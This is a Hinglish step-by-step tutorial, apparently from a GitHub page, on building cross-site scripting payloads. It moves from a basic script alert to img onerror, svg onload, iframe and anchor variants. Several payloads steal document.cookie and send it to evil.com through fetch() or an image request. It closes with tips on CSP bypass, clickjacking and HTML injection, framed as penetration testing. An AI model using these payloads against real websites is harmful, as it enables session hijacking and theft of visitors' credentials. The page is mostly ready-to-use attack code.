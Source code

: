 # 💣 XSS Payload Banana – Step by Step

🔹 Step 1: Start karo <script> tag se

Yeh browser ko batata hai ke ab JavaScript chalne wali hai.

**<script>**

🔹 Step 2: JavaScript code likho uske andar

Sabse simple payload hota hai **alert('XSS')** — isse popup aata hai.

**<script>
alert('XSS');
</script>**

🔹 Step 3: End karo </script> se

Yeh batata hai ke JavaScript ka block khatam ho gaya.

---

### ✅ Final Payload:

**<script>alert('XSS');</script>**

---

### 🔥 Advanced Payload Example:

Agar tum cookie nikalna chahte ho:

**<script>
fetch("https://evil.com/steal?c=" + document.cookie);
</script>**

Yahan:

document.cookie → user ki cookie le raha hai

fetch() → us cookie ko attacker ki site par bhej raha hai

---

### ⚠️ Bonus Tip:

Kayi websites <script> block karti hain. Tab tum alternate technique use karte ho:

**<img src=x onerror=alert('XSS')>**

Yahan:

**<img>** toh allow hai

**onerror** JavaScript chala deta hai jab image load na ho

# 🔰 1. <img> tag ke saath XSS Payload

```<img src="x" onerror="alert('XSS')">```

---

### ✅ Kya ho raha hai?

**src="x"** → image load nhi ho paayi

**onerror="..."** → jab error aaya toh JavaScript chali

Isme " quotes use hue hain attribute values ke liye

Aur 'XSS' single quotes alert ke message mein

---

### 🔰 2. <iframe> tag ke saath XSS Payload

**<iframe src="javascript:alert('XSS')"></iframe>**

Kuch browsers allow nhi karte, lekin testing ke liye useful hai

---

### 🔰 3. <svg> + onload

**<svg onload="alert('XSS')"></svg>**

svg graphics ke liye hota hai, lekin onload ke through JavaScript chala sakte ho

---

### 🔰 4. Anchor Tag <a> with onclick

```<a href="#" onclick="alert('XSS')">Click me</a>```

---

Jab banda is link pe click kare, XSS payload trigger hoga

---

## 📌 "Double Quotes" aur 'Single Quotes' ka use:

Situation	Use

HTML attribute ke liye	"..." double quotes

JavaScript string ke liye	'...' single quotes ya double bhi chal jaata hai


Example:

```<img src="x" onerror="alert('Hello')">```

---

**"x"** → image path

---

**onerror="alert('Hello')"** → **outer quotes "..."** (HTML)

inner 'Hello' → (JavaScript)

---

### 📌 + ka use kab hota hai?

**+** ka use hota hai string concatenate karne ke liye JavaScript mein.
Matlab, do cheezein jorna.

Example:

**<script>
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>**

**"https://..."** ek string hai

**document.cookie** second part

**+** dono ko jod raha hai

### Result: **https://evil.com/steal?cookie=abc123xyz** (cookie wali URL ban gayi)

---

### ✅ Real-World Example: Pure HTML Based XSS (no <script>)

```<img src="x" onerror="fetch('https://evil.com?c='+document.cookie)">```

---


### Agar website ne JavaScript ko block kar diya ho (ya CSP lagi ho), toh...

⚠️ Toh phir yeh sab payloads jaise:

**<script>alert(1)</script>**

```**<img src=x onerror=alert(1)>**```

---

```<svg onload=alert(1)>```

---

**<iframe src="javascript:alert(1)">**

kaam nahi karein ge ya blocked ho jaayenge ❌

### 🔐 Agar JavaScript block hai toh kya karein?

Acha sawal! Hacker kya karta hai?

✅ Kuch Alternate Attacks:

🖼️ Image-based exfiltration

**Kaise:** ```<img src="https://evil.com/steal?c=XYZ">```

---

agar allowed ho

---

🧱 Clickjacking / Phishing

**Kaise:** Form, fake button ya CSS-based UI banake

---

💉 HTML injection

**Kaise:**	Sirf HTML elements inject karne ki koshish

---

🧙‍♂️ DOM-based CSP bypass	

**Kaise:** Agar CSP weak ho, toh usko manipulate karna with script-src-elem

---

### ✅ Penetration Testing Tip:

Tumhara goal ye hona chahiye:

"Check karo JavaScript allowed hai ya nahi? Agar hai toh full XSS payload inject karo. Agar nahi, toh alternate methods try karo — ya CSP bypass check karo."




